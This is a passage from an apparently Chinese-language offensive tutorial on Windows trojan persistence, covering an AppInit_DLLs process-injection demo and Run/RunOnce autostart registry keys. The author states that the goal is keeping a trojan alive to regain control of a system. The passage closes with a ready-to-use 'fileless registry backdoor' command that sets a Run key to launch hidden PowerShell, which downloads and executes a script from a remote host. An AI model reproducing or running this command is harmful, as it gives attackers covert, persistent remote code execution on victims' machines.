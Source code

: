 ```cpp
}
```

将生成的 `dll.dll` 放到 `c:\` 下面,运行 `Project1.exe`, 刷新，再次查看注册表

![image-20220703120306557](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220703120306557.png)



可以发现 `AppInit_DLLs` , `LoadAppInit_DLLs` 的数据值都进行了更改.

接下来我们运行 `cmd.exe`,可以看到出现了弹窗,也就成功实现了进程注入.

![image-20220703120436545](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220703120436545.png)




## 进阶篇之注册表自启动

除了最基本的隐藏外,我们还需要我们的木马处于运行状态,以保证我们随时都能重新恢复对系统的控制权限.

通过在注册表中写入相应的键值可以实现程序的开机自启动.一般自启动项是这两个键：
1. Run

2. RunOnce

两者的区别如下

1. Run：该项下的键值即为开机启动项，每一次随着开机而启动。

2. RunOnce：RunOnce和Run差不多，唯一的区别就是RunOnce的键值只作用一次，执行完毕后就会自动删除

用户级自启动注册表
```
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

系统级自启动注册表
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce
```

这里我在用户的注册表中添加了一项启动 `calc.exe`,我在重启机器之后,成功弹出计算器.
![20220622222111](http://particles.oss-cn-beijing.aliyuncs.com/img%5C934d811899b3b5d62766003b77ac59af.png)

![20220622222621](http://particles.oss-cn-beijing.aliyuncs.com/img%5Cca65d0c88ac3fd31bc3f99e113ebea4e.png)

使用以下命令可以一键实现无文件注册表后门：

```shell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"" /f
```
简单说明下上面指令的含义：
